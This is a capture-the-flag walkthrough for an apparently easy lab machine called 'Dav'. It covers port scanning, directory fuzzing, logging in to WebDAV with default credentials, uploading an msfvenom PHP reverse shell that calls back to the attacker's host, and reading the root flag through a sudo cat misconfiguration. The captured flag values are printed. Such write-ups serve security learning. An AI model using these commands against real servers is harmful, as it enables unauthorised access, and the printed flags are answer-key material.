<p align="center">
  
</p>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Dav</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code>sonyahack1</code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>06.04.2026</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy 🟢</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td> Web / PrivEsc / Linux </td>
  </tr>
  <tr>
    <td align="left" ><b>🛠️ Tools</b></td>
    <td> nmap | ffuf | curl </td>
  </tr>
  <tr>
    <td align="left" ><b>💀 Objectives</b></td>
    <td>
	<code>user.txt</code><br>
	<code>root.txt</code><br>
   </td>
  </tr>

</table>

</div>

## Attack Flow

- [openVPN](#openvpn)
- [scanning](#scanning)
- [fuzzing](#fuzzing)
- [webdav](#webdav)
- [RCE (webdav)](#reverse-shell)
- [privilege escalation (sudo)](#privilege-escalation)

<h2 align="center"> ⚔️ Attack Implemented  </h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th width="18%">Tactics</th>
      <th width="40%">Techniques</th>
      <th width="42%">Description</th>
    </tr>
  </thead>
  <tbody>

   <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1133 - External Remote Services</b></td>
      <td>Access to the internal network via OpenVPN connections</td>
   </tr>

   <tr>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>T1059.004 - Command and Scripting Interpreter: Unix Shell</b></td>
      <td>Execution of a Unix shell via server-side PHP code injection</td>
   </tr>

   <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548.001 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching</b></td>
      <td>Privilege escalation via sudo misconfiguration</td>
   </tr>

   <tr>
      <td rowspan="2" align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1046 - Network Service Discovery</b></td>
      <td>Port scanning and wordlist-based discovery of exposed web resources</td>
   </tr>

   <tr>
      <td align="left"><b>T1069 - Permission Groups Discovery</b></td>
      <td>Enumeration of user groups and privileges (e.g., sudo -l)</td>
   </tr>

   <tr>
      <td align="left"><b>TA0008 - Lateral Movement</b></td>
      <td align="left"><b>T1210 - Exploitation of Remote Services</b></td>
      <td>Exploitation of internal services to gain access to other machines</td>
   </tr>

   <tr>
      <td align="left"><b>TA0009 - Collection</b></td>
      <td align="left"><b>T1005 - Data from Local System</b></td>
      <td>The user and root flags have been collected</td>
   </tr>

   <tr>
      <td align="left"><b>TA0011 - Command and Control</b></td>
      <td align="left"><b>T1095 - Non-Application Layer Protocol</b></td>
      <td>Reverse TCP shell established via netcat</td>
   </tr>

  </tbody>
</table>

</div>

<h2 align="center"> 📝 Report </h2>

> **Important:** `Initial access` to the internal lab network was established via a provided `OpenVPN configuration file (.ovpn)`, representing a simulated access path consistent with
> `MITRE ATT&CK technique` - `T1133 (External Remote Services)`. Subsequent `ATT&CK` mappings focus on actions performed `after internal network access was established`.

### openvpn

> We gain access to the target's internal network via an `OpenVPN connection`:

```bash

sudo openvpn eu-west-1-sonyahack1-regular.ovpn

```

<p align="center">
 
</p>

### scanning

> We begin by gathering information about the target. First, we perform a `port scan` using the following script:

```bash

#!/usr/bin/env bash

set -euo pipefail

ip="${1:-}"

if [[ -z "$ip" ]]; then
  echo "Usage: $0 <ip>"
  exit 1
fi

echo "[*] Scanning all ports on $ip"

open_ports=$(sudo nmap -p- --open --min-rate=1000 -T4 "$ip" | awk -F/ '/^[0-9]+\/tcp/ {print $1}' | paste -sd, -)

if [[ -z "$open_ports" ]]; then
  echo "[!] No open TCP ports found on $ip"
  exit 0
fi

echo "[+] Open ports: $open_ports"
echo "[*] Running service scan"

sudo nmap -sVC -vv -p"$open_ports" "$ip"

```

> The script operates in `two stages`:

- 1) it first identifies open ports on the target;
- 2) and then enumerates the services running on those ports.

```bash

./nmap_scan.sh 10.81.141.190
[*] Scanning all ports on 10.81.141.190
[+] Open ports: 80
[*] Running service scan

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)


```

> The scan reveals an `Apache web server` running on port `80`. No other services are detected. We proceed to access it via a web browser:

<p align="center">
 
</p>

> The default `Apache web server` page is displayed. No useful information is identified at this stage.

### fuzzing

> We use `ffuf` to discover hidden `files` and `directories` on the target:

```bash

ffuf -u 'http://10.81.141.190/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c -e .php,.py,.asp,.aspx,.jsp,.html,.txt,.bak,.zip,.env,.sql,.log,.conf,.tar.gz,.tar,.cgi -fw 22

```

<p align="center">
 
</p>

> The fuzzer discovered a webdav endpoint returning a 401 Unauthorized status code. Upon accessing it, we are presented with a WebDAV authentication prompt.

<p align="center">
 
</p>

### WebDav

> We don't have login credentials, so we go `Google` them and find a list that looks something like this:

<p align="center">
 
</p>

> The first credential pair, `wampp:xampp`, is valid for authentication to the `webdav` service:

<p align="center">
 
</p>

> Inside the directory, we see the file `passwd.dav`. But it only contains the creds we just used to log in:

<p align="center">
 
</p>

> **Important**: `WebDAV (Web Distributed Authoring and Versioning)` is an extension of the HTTP protocol that allows not only `downloading` but also `uploading`, `modifying`, and `managing` files
> on a web server. Essentially, it enables interaction with the server similar to a file system. If misconfigured, this extension may allow an attacker to upload arbitrary files to the server,
> potentially leading to `RCE (Remote Code Execution)`.

### RCE (WebDav)

> To gain access to the system, we will generate a `.php` file using `msfvenom` in order to establish a reverse connection back to our machine.

```bash

msfvenom -p php/reverse_php LHOST=192.168.221.187 LPORT=4141 -f raw > shell.php

```

> We upload `shell.php` to the `webdav` directory.

```bash

curl -u wampp:xampp -T shell.php http://10.81.141.190/webdav/

```

<p align="center">
 
</p>

> We verify that the file has been successfully uploaded:

<p align="center">
 
</p>

> Great. We start a listener using `netcat` and execute the file:

```bash

curl http://10.81.141.190/webdav/shell.php -H "Authorization: Basic d2FtcHA6eGFtcHA="

```
```bash

nc -lvnp 4141

```

<p align="center">
 
</p>

> We have gained access. We perform initial enumeration and locate the `first flag` (`user.txt`) in the home directory of the user `merlin`, which `we have permission to read`:

```bash

www-data@ubuntu:/home/merlin$ cat user.txt
cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
www-data@ubuntu:/home/merlin$

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 user.txt</b><br/>
      <code>449b40fe93f78a938523b7e4dcd66d2a</code>
    </td>
  </tr>
</table>

</div>

### Privilege Escalation (sudo)

> We continue gathering information. Let's check which commands the user is allowed to execute with elevated privileges via `sudo`, based on the `sudoers configuration`:

<p align="center">
 
</p>

> Any user on the system can execute the `/bin/cat` command with `root privileges` without requiring a password. In other words, `we are able to read any file on the system`.
> We leverage this `misconfiguration` to retrieve the root flag from the `/root` directory.

```bash

www-data@ubuntu:/home/merlin$ sudo /bin/cat /root/root.txt
sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
www-data@ubuntu:/home/merlin$

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 root.txt</b><br/>
      <code>101101ddc16b0cdf65ba0b8a7af7afa5</code>
    </td>
  </tr>
</table>

</div>

> System is pwned!
